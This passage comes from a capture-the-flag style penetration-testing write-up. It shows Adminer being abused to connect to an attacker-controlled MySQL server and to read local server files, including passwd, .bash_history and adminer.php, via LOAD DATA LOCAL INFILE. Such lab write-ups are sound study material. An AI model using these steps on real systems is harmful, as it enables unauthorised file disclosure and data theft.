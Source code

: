 ![80 Adminer Command](screenshots/80_adminer_sqlcommand.png)

The HackTricks article didn't provide any other solutions for RCE, so started to search for specific attacks against Adminer. I found an interesting article entitled: [Adminer Script Results to Pwning Server?](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f). After reading through the article, the steps are to log into a remote MySQL service using an attacker controlled database (done this part), then read files using the `read data local infile` command.

Before reading local files on the target, we need to create a table to store the data. We can use the SQL command feature in Adminer to run these commands.

```sql
CREATE TABLE random (data VARCHAR(256));
```

Then read in a file to the new table. I dumped a variety of files such as the `passwd` and `.bash_history`. There wasn't much interesting and finally decided to dump the `adminer.php` file.

```sql
LOAD DATA LOCAL INFILE '/var/www/html/utility-scripts/adminer.php' INTO TABLE admirer_pwn.random FIELDS TERMINATED BY "\n"
```
